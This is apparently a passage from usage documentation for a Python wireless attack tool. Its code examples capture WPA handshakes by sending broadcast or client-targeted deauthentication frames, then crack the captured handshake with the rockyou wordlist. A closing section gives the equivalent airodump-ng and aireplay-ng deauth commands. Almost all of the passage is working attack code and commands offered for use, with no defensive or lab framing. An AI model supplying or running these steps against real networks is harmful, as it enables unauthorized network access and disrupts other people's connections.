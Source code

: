 ```python
    channel=target['channel'],
    client_mac=None,  # Broadcast deauth
    output_prefix="handshake",
    max_duration=60
)

# 4. Crack the handshake
if capture_file:
    password = crack_handshake(
        capture_file=capture_file,
        wordlist="/usr/share/wordlists/rockyou.txt"
    )
    
    if password:
        print(f"Password found: {password}")
```

### Manual Mode (Legacy)

```python
# If you prefer manual deauth in separate terminal
capture_file = capture_handshake(
    monitor_interface=monitor_interface,
    bssid=target['bssid'],
    channel=target['channel'],
    output_prefix="handshake",
    duration=60,
    auto_deauth=False  # Disable automatic deauth
)
```

### With Specific Client Target

```python
# More effective: target specific client
capture_file = capture_handshake_with_deauth(
    monitor_interface=monitor_interface,
    bssid="AA:BB:CC:DD:EE:FF",
    channel="6",
    client_mac="11:22:33:44:55:66",  # Specific client
    max_duration=60
)
```

## Command-Line Equivalents

### What the tool does automatically:

**Old manual approach:**
```bash
# Terminal 1: Start capture
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 -w handshake wlan0mon

# Terminal 2: Send deauth (while watching Terminal 1)
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Manually watch for "WPA handshake" message
# Manually stop both processes when handshake appears
```
